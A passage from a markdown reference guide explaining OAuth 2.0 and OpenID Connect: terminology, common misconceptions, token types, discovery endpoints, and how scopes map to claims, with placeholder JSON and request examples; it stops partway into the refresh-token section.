








# OIDC & OAuth 2.0 Reference Guide

## Quick Summary

**TL;DR:** OAuth 2.0 handles **authorization** (what you can do), OpenID Connect (OIDC) adds
**authentication** (who you are) on top of OAuth. OAuth gives you access tokens for APIs, OIDC adds
ID tokens with user identity. Scopes are what you request, claims are what you get back.

**Common use case:** App needs to authenticate users and call APIs on their behalf:

1. User logs in via OIDC provider (Google, Authelia, Keycloak)
2. App gets ID token (identity) + Access token (API permissions)
3. App uses ID token to know who the user is
4. App uses Access token to call APIs

**Key insight:** OIDC = OAuth 2.0 + Identity layer. You get both tokens together, use them for
different purposes.

---

## Table of Contents

- [Terminology](#terminology)
- [Common Misconceptions](#common-misconceptions)
- [Quick Reference & Cheat Sheet](#quick-reference--cheat-sheet)
  - [Flow Decision Tree](#flow-decision-tree)
  - [Authorization Code Flow Diagram](#authorization-code-flow-diagram)
  - [Token Comparison](#token-comparison)
  - [Endpoint Reference](#endpoint-reference)
  - [Scopes vs Claims Quick Guide](#scopes-vs-claims-quick-guide)
- [Detailed Discussions](#detailed-discussions)
  - [Tokens Deep Dive](#tokens-deep-dive)
  - [Scopes & Claims Deep Dive](#scopes--claims-deep-dive)
  - [Discovery & Endpoints](#discovery--endpoints)
  - [Security Considerations](#security-considerations)
  - [Spec References](#spec-references)

---

## Terminology

| Term                   | Definition                                            | Example                                    |
| ---------------------- | ----------------------------------------------------- | ------------------------------------------ |
| **OAuth 2.0**          | Authorization framework for API access                | "Let this app read my files"               |
| **OIDC**               | OpenID Connect - adds authentication to OAuth         | "Prove I'm <alice@example.com>"            |
| **IDP** / **OP**       | Identity Provider / OpenID Provider - the auth server | Authelia, Keycloak, Google, Okta           |
| **RP**                 | Relying Party - the client app trusting the IDP       | OpenCloud Android app, web apps            |
| **Resource Server**    | API server that validates access tokens               | OpenCloud API backend                      |
| **Scope**              | Permission you're requesting                          | `read:files`, `openid`, `profile`          |
| **Claim**              | User attribute/data in a token                        | `"email": "alice@example.com"`             |
| **ID Token**           | JWT containing user identity claims                   | Proof of who authenticated                 |
| **Access Token**       | Token for calling APIs (opaque or JWT)                | Permission to access resources             |
| **Refresh Token**      | Long-lived token to get new access tokens             | Avoid re-authenticating user               |
| **Authorization Code** | Temporary code exchanged for tokens                   | One-time use, expires in ~1 minute         |
| **JWT**                | JSON Web Token - signed JSON data                     | `header.payload.signature`                 |
| **Discovery**          | `.well-known/openid-configuration` endpoint           | IDP advertises its capabilities            |
| **Grant Type**         | OAuth flow type                                       | `authorization_code`, `client_credentials` |
| **Consent**            | User approves app's requested permissions             | "Allow app to view your profile?"          |

**Key Relationships:**

- **OIDC requires OAuth** - You can't do OIDC without OAuth, but you can do OAuth without OIDC
- **Scopes unlock claims** - Request `profile` scope → Get `name`, `given_name` claims
- **IDP = OP** - Same thing, different specs use different terms
- **Client = RP** - The app using the IDP for authentication

---

## Common Misconceptions

### ❌ "ID Token replaces Access Token"

**Wrong:** They're used together, not interchangeably.

- **ID Token:** Proves user identity to the client app
- **Access Token:** Grants API access
- **Both issued together** at the `/token` endpoint

**Example:**

```javascript
// Correct usage
const tokens = await exchangeCodeForTokens(authCode)
const userInfo = parseIdToken(tokens.id_token)      // Who the user is
const apiData = await callApi(tokens.access_token)  // Call APIs
```

[See: Tokens Deep Dive](#tokens-deep-dive)

---

### ❌ "Scopes and claims are the same thing"

**Wrong:** Scopes are requests, claims are responses.

- **Scope:** "I want access to profile information" (`scope=profile`)
- **Claim:** The actual data returned (`"name": "Alice Smith"`)

**Think of it like ordering food:**

- Scope = "I'll have the combo meal" (request)
- Claims = The burger, fries, and drink you receive (data)

**Without the scope, you don't get the claims:**

```javascript
// Request
scope = ["openid", "profile"]  // ← Requesting

// Response ID Token
{
  "sub": "user123",            // ← From "openid" scope
  "name": "Alice",             // ← From "profile" scope
  "email": "alice@example.com" // ← NOT included (no "email" scope!)
}
```

[See: Scopes & Claims Deep Dive](#scopes--claims-deep-dive)

---

### ❌ "Claims in Access Tokens are for authorization"

**Partially true, but it's complicated:**

**The "proper" OAuth way:**

- Access Token contains `scope` claim (e.g., `"scope": "read:files write:files"`)
- Resource server checks scopes to authorize operations
- Other claims (email, groups) are informational only

**Common "improper" practice (what many systems do):**

- Access Token contains `groups` claim
- Resource server checks groups for authorization
- Simpler, more familiar to admins

**Example of "proper" vs "improper":**

```javascript
// PROPER - Check scopes
if (accessToken.scope.includes("delete:files")) {
  allowDelete()
}

// IMPROPER (but common) - Check identity claims
if (accessToken.groups.includes("admin")) {
  allowDelete()
}
```

**Reality:** Both work, "improper" is extremely common (OpenCloud does this).

[See: Security Considerations](#security-considerations)

---

### ❌ "The ID Token comes with the authorization code"

**Wrong:** ID Token comes from the `/token` endpoint, not `/authorize`.

**Why:** Security. The authorization code is passed through the browser (visible in history/logs).
ID Tokens contain user PII and should only travel over secure back-channel.

**Flow:**

```txt
/authorize → Returns: authorization code (opaque, safe)
     ↓
/token → Returns: ID token + Access token (secure channel)
```

[See: Authorization Code Flow Diagram](#authorization-code-flow-diagram)

---

### ❌ ".well-known endpoint lives on the client app"

**Wrong:** It lives on the **IDP**, not the client app.

**Correct locations:**

- Authelia: `https://auth.example.com/.well-known/openid-configuration`
- Keycloak: `https://keycloak.example.com/realms/myrealm/.well-known/openid-configuration`
- Google: `https://accounts.google.com/.well-known/openid-configuration`

**Exception:** If the app IS the IDP (like OpenCloud in built-in mode), then:

- `https://opencloud.example.com/.well-known/openid-configuration`

[See: Discovery & Endpoints](#discovery--endpoints)

---

### ❌ "groups scope grants permission to manage groups"

**Wrong:** `groups` is an **identity scope**, not an API permission.

- **Identity scope:** "Let me see which groups the user belongs to"
- **API permission scope:** "Let me modify group memberships"

**On consent screen:**

```txt
App wants to:
☑ View your profile (profile)
☑ View your group memberships (groups)  ← Just viewing, not modifying
```

**The app uses group info to make authorization decisions, but the scope itself doesn't grant API
permissions.**

[See: Scopes & Claims Deep Dive](#scopes--claims-deep-dive)

---

## Quick Reference & Cheat Sheet

### Flow Decision Tree

**Which OAuth/OIDC flow should I use?**



**Use cases:**

- **Authorization Code Flow:** Server-side web apps, mobile apps (most common)
- **Auth Code + PKCE:** SPAs, native mobile apps (best practice)
- **Client Credentials:** Service-to-service, no user involved
- **Implicit:** ⚠️ Deprecated, don't use

[Details: Flow Comparison](#flow-comparison-detailed)

---

### Authorization Code Flow Diagram

**Most common OIDC flow - what happens when user logs in:**



**Key points:**

1. Authorization code passed through browser (secure - it's opaque)
2. Tokens only sent over secure back-channel (App ↔ IDP)
3. User sees consent screen for requested scopes
4. All three tokens returned together
5. Access token used for API calls

[Details: Authorization Code Flow](#authorization-code-flow)

---

### Token Comparison

| Feature       | ID Token                        | Access Token          | Refresh Token         |
| ------------- | ------------------------------- | --------------------- | --------------------- |
| **Purpose**   | Prove user identity             | Call APIs             | Get new access tokens |
| **Format**    | Always JWT                      | Opaque string OR JWT  | Opaque string         |
| **Contains**  | User claims (name, email, etc.) | Permissions (scopes)  | Just a reference      |
| **Recipient** | Client app                      | Resource server (API) | Token endpoint only   |
| **Lifetime**  | Short (5-60 min)                | Short (5-60 min)      | Long (days/months)    |
| **Readable?** | Yes (decode JWT)                | Maybe (if JWT format) | No                    |
| **Spec**      | OIDC                            | OAuth 2.0             | OAuth 2.0             |
| **Required?** | Only with OIDC                  | Always                | Optional              |

**ID Token example (decoded JWT):**

```javascript
{
  "iss": "https://auth.example.com",      // Issuer
  "sub": "user-123",                       // Subject (user ID)
  "aud": "MyClientApp",                    // Audience
  "exp": 1735689600,                       // Expiration
  "name": "Alice Smith",                   // Claims from scopes
  "email": "alice@example.com",
  "groups": ["admin", "users"]
}
```

**Access Token (opaque):**

```txt
2YotnFZFEjr1zCsicMWpAA
```

**Access Token (JWT format):**

```javascript
{
  "sub": "user-123",
  "client_id": "MyClientApp",
  "scope": "read:files write:files",      // What this token can do
  "aud": "api.example.com",
  "exp": 1735689600
}
```

[Details: Tokens Deep Dive](#tokens-deep-dive)

---

### Endpoint Reference

**Standard OIDC endpoints (from `.well-known/openid-configuration`):**

| Endpoint                              | Purpose                                     | Method | Returns                      |
| ------------------------------------- | ------------------------------------------- | ------ | ---------------------------- |
| **/.well-known/openid-configuration** | Discovery - IDP capabilities                | GET    | Configuration JSON           |
| **/authorize**                        | Start auth flow, get consent                | GET    | Authorization code           |
| **/token**                            | Exchange code/refresh for tokens            | POST   | ID + Access + Refresh tokens |
| **/userinfo**                         | Fetch user claims (alternative to ID token) | GET    | User claims JSON             |
| **/jwks**                             | Public keys for token verification          | GET    | Key set                      |

**Example discovery response:**

```javascript
{
  "issuer": "https://auth.example.com",
  "authorization_endpoint": "https://auth.example.com/api/oidc/authorization",
  "token_endpoint": "https://auth.example.com/api/oidc/token",
  "userinfo_endpoint": "https://auth.example.com/api/oidc/userinfo",
  "jwks_uri": "https://auth.example.com/api/oidc/jwks",

  "scopes_supported": ["openid", "profile", "email", "groups"],
  "claims_supported": ["sub", "name", "email", "groups"],
  "claims_parameter_supported": true,

  "response_types_supported": ["code", "id_token", "token"],
  "grant_types_supported": ["authorization_code", "refresh_token"]
}
```

**Token endpoint grant types:**

```javascript
// Authorization code → tokens
POST /token
  grant_type=authorization_code
  code=ABC123
  redirect_uri=https://app.example.com/callback

// Refresh token → new access token
POST /token
  grant_type=refresh_token
  refresh_token=xyz789

// Client credentials (no user)
POST /token
  grant_type=client_credentials
  scope=read:data
  client_id=...
  client_secret=...
```

[Details: Discovery & Endpoints](#discovery--endpoints)

---

### Scopes vs Claims Quick Guide

**Standard OIDC scopes and the claims they unlock:**

| Scope            | Claims Included                                                                                                                            | Purpose                              |
| ---------------- | ------------------------------------------------------------------------------------------------------------------------------------------ | ------------------------------------ |
| `openid`         | `sub`, `iss`, `aud`, `exp`, `iat`                                                                                                          | **Required** - Basic identity        |
| `profile`        | `name`, `given_name`, `family_name`, `nickname`, `preferred_username`, `picture`, `website`, `gender`, `birthdate`, `locale`, `updated_at` | Full profile info                    |
| `email`          | `email`, `email_verified`                                                                                                                  | Email address                        |
| `address`        | `address` (object)                                                                                                                         | Postal address                       |
| `phone`          | `phone_number`, `phone_number_verified`                                                                                                    | Phone number                         |
| `offline_access` | (none)                                                                                                                                     | **Special** - Get refresh token      |
| `groups`         | `groups`                                                                                                                                   | **Non-standard** - Group memberships |

**Important distinctions:**

```javascript
// Request scopes (what you're asking for)
scope = "openid profile email groups"

// Receive claims (what you get back)
{
  "sub": "user123",                    // openid scope
  "name": "Alice Smith",               // profile scope
  "email": "alice@example.com",        // email scope
  "groups": ["admin", "editors"]       // groups scope
}
```

**Scope vs Claims Parameter:**

```javascript
// Method 1: Request via scopes (traditional)
GET /authorize?
  scope=openid profile groups

// Method 2: Request via claims parameter (more explicit)
GET /authorize?
  scope=openid profile
  &claims={"id_token":{"groups":null}}
```

**When to use claims parameter:**

- IDP supports it (`claims_parameter_supported: true` in discovery)
- Want granular control (cherry-pick specific claims)
- Scope doesn't exist but claim does
- Better fallback behavior (silently ignored if unsupported)

[Details: Scopes & Claims Deep Dive](#scopes--claims-deep-dive)

---

## Detailed Discussions

### Tokens Deep Dive

<details>
<summary>Click to expand: Understanding ID Tokens, Access Tokens, and Refresh Tokens</summary>

#### ID Token - Identity Proof

**Purpose:** Tells the client app who the authenticated user is.

**Format:** Always a JWT (JSON Web Token)

**Structure:**

```txt
eyJhbGc...header
.eyJpc3M...payload
.SflKxw...signature
```

**Decoded payload example:**

```javascript
{
  // Standard OIDC claims (always present)
  "iss": "https://auth.example.com",           // Issuer - who created this token
  "sub": "user-123-abc",                       // Subject - unique user ID
  "aud": "OpenCloudAndroid",                   // Audience - which app is this for
  "exp": 1735689600,                           // Expiration - unix timestamp
  "iat": 1735686000,                           // Issued at - unix timestamp
  "auth_time": 1735685900,                     // When user actually authenticated
  "nonce": "random-string",                    // Replay attack protection

  // Claims from 'profile' scope
  "name": "Alice Smith",
  "given_name": "Alice",
  "family_name": "Smith",
  "preferred_username": "alice",
  "picture": "https://example.com/alice.jpg",

  // Claims from 'email' scope
  "email": "alice@example.com",
  "email_verified": true,

  // Claims from 'groups' scope (non-standard)
  "groups": ["opencloud-admin", "editors"]
}
```

**Key characteristics:**

- **Client reads it:** App decodes JWT to extract user info
- **Not sent to APIs:** Only for client app's use
- **Short-lived:** Typically 5-60 minutes
- **Cannot be refreshed:** Get new one by using refresh token at `/token` endpoint

**Security notes:**

- Signature validates it came from the IDP
- Must verify: `iss`, `aud`, `exp` before trusting
- May contain sensitive PII - handle carefully
- Don't send in URLs (can leak in logs)

#### Access Token - API Permission

**Purpose:** Grants permission to call APIs on user's behalf.

**Format:** Opaque string OR JWT (IDP decides)

**Opaque format example:**

```txt
2YotnFZFEjr1zCsicMWpAA
```

- Client can't read it
- Resource server validates with IDP
- More secure (no info leakage)

**JWT format example:**

```javascript
{
  "sub": "user-123",
  "client_id": "OpenCloudAndroid",
  "scope": "read:files write:files",    // What this token can do
  "aud": "opencloud-api",               // Which API this is for
  "exp": 1735689600,
  "groups": ["admin"]                   // Sometimes included for convenience
}
```

**Usage:**

```javascript
// Send with API requests
fetch('https://api.example.com/files', {
  headers: {
    'Authorization': `Bearer ${accessToken}`
  }
})
```

**Resource server validates:**

1. Token signature (if JWT)
2. Not expired (`exp` claim)
3. Correct audience (`aud` claim)
4. Has required scopes or claims

**Key characteristics:**

- **Never for client use:** Only sent to resource servers (APIs)
- **Short-lived:** 5-60 minutes typical
- **Can be refreshed:** Use refresh token to get new one
- **Scope determines permissions:** What operations are allowed

#### Refresh Token - Token Renewal

